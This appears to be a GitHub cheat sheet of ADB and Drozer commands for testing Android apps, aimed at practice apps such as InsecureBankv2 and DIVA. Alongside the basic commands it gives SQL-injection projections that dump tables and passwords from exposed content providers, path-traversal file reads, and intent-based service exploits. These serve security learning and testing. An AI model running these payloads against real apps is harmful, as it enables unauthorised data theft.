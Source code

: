 # adb-cheatsheat
Contains all ADB commands

## Basic commands
Normal user shell access
```
adb shell
```

Root user shell access
```
adb root
adb shell
```

Root  user access from shell
```
adb shell
su
```

Install APKs & SPLIT APKs
```
adb install <apkname>
adb install-multiple <splitapkname1> <splitapkname2> <splitapkname3> <splitapkname4>
```

Uninstall APKs
```
adb uninstall <apkname>
```

Uploading files or folders
```
adb push <sourcepath> <destinationpath>
```

Downloading files or folders
```
adb pull <sourcepath> <destinationpath>
```

Listing installed packages; Here pm means Package manager
```
adb shell pm list packages
```

Getting bask apk path or source apks path
```
adb shell pm path <packagename>
```

Forwarding Ports
```
adb forward tcp:hostport tcp:androidport
adb reverse tcp:androidport tcp:hostport
```


## Activity, Service & Broadcast handling
### Activity
**-n** component name(Pull path to activity). This below commands send Intent to launch activities
```
adb shell am start-activity -n packagename/activityname
```
Example:
```
adb shell am start-activity -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
                        [OR]
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin
```
**DROZER Intent options for Activity, Broadcast, Service**
```
-a is used to specify action example: -a android.intent.action.VIEW
--extra is to specify strings example: --extra key value
--data-uri is to specify datauri example: --data-uri "https://hello?abc=hii"
--component is to specify activity which takes packagename & activity name example: --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity
```

DROZER Activities
```
dz> run app.activity.info -a jakhar.aseem.diva   #listing activities
dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity  #starting activities
```


#### Intent options with Activities
Combining Action with Activity -a android.intent.action.VIEW 
```
adb shell am start-activity -a android.intent.action.VIEW -n com.android.insecurebankv2/.PostLogin
```

Sending strings via extra strings with Intent
```
--es key "value" or -e key "value"
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin --es reg_url "https://3kal.medium.com"
```

Sending data via data URI with Intent
```
-d <DATA_URI>
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin -d "https://hello?abc=hii"
```

### Broadcast
Sending strings via Intent with broadcast receivers
```
adb shell am broadcast -n <broadcastname> -a <actionname> -e key value
```
Example:
```
adb shell am broadcast -n com.android.insecurebankv2/.BrReciever -a android.intent.action.ACTION_SEND -e uid appsec
```
DROZER broadcasts
```
dz> run app.broadcast.info -a jakhar.aseem.diva  #listing broadcast
dz> run app.broadcast.start --component jakhar.aseem.diva jakhar.aseem.diva.BroadCast  #starting Broadcast
```

### Services exploit
Sending strings via Intent with services
```
adb shell am startservice -n <servicename> --es key value
```
Example:
```
adb shell am startservice -n com.androgoat/.DataLeakService --es "leak_data" "tr"
```
DROZER services
```
dz> run app.service.info -a jakhar.aseem.diva  #listing services
dz> run app.service.start --component jakhar.aseem.diva jakhar.aseem.diva.TestService  #starting Services
```


## Exploiting Content providers
Content provider to access to database
```
adb shell content query --uri <contentprovideruri>
```
Example:
```
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds --projection "'"
adb shell content query --uri content://com.example.vulnerableapp.provider --projection "' UNION SELECT * FROM sqlite_master WHERE type='table';-- "
```
DROZER contentproviders
```
dz> run app.provider.info -a com.abc.testabc   #list content providers with packagname look for exported & permission NULL
dz> run scanner.provider.finduris -a com.abc.testabc  #scan vulnerable content providers
dz> run scanner.provider.sqltables --uri content://com.abc.testabc.contentprovider/pwds/  #list all tables in vulnerable content provider
dz> run scanner.provider.injection --uri content://com.abc.testabc.contentprovider/pwds/  #list vulnerable content providers
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection "'"  #query for sqlinjection
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection " * FROM passwords;"  #querying database
```

#### Content provider to access files
```
adb shell content read --uri <contentprovideruri>
```
Example:
```
adb shell content read --uri content://com.example.vulnerableapp.provider/../../../../test.txt
```
DROZER
```
dz> run scanner.provider.traversal -a com.abc.testabc   #scan for pathtraversal vulnerable contentprovider
dz> run app.provider.read content://com.example.vulnerableapp.provider/../../../../test.txt   #exploting & reading files
```

#### DROZER ATTACK SURFACE SCAN & MANIFEST READ
```
dz> run app.package.attacksurface jakhar.aseem.diva    #attack surface listing
dz> run app.package.manifest jakhar.aseem.diva     #manifest file listing
```

## Debuggable app connection</br>
Open debuggable app then run below command
```
adb jdwp   #it shows the port to socket of dubuggale app
```
Forward the host tcpport to socketport of debuggable android app
```
adb forward tcp:7777 jdwp:12167
```
Attach jdb to it(jdb by default comes with platform-packages)
```
jdb -attach localhost:7777
```
